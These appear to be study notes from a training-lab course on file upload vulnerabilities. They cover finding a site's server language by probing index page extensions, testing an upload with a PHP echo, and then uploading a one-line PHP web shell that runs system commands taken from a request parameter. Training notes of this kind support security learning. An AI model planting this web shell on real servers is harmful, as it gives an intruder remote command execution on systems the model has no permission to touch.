 # Basic Exploit

This is when the webapplication accepts any type of file without any validation, (can drag and drop any file type)

### Identifying Web Framework

A **web shell has to be written in the same programming language that runs the web server**, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts

Easy method to determine what language runs the web application

* Access /index.ext and swap ext with various web extensions (php, asp, aspx)

> we can use ffuf or burp to enumerate the file extension. Note that some webapps doesn't use index page or have more than one web extensions

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_wappalyzer.jpg" alt=""><figcaption><p>wappalyzer to check for technologies</p></figcaption></figure>

### Vulnerability Identification

After knowing web technologies, we have to check if the webapp is vulnerable.

Test with `<?php echo "Hello HTB";?>` and upload the text to the webapp

Then access the location where the file is stored.

```
http://SERVER_IP:PORT/uploads/test.php
```

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_hello_htb.jpg" alt=""><figcaption><p>VULNERABLE</p></figcaption></figure>

### Assessment

```
<?php echo system($_REQUEST['cmd']); ?>
```

<figure><img src="../../.gitbook/assets/image (96) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (99) (1).png" alt=""><figcaption><p>ng-absentvalidation-m7kdm-9cf465b66-wxjhj</p></figcaption></figure>

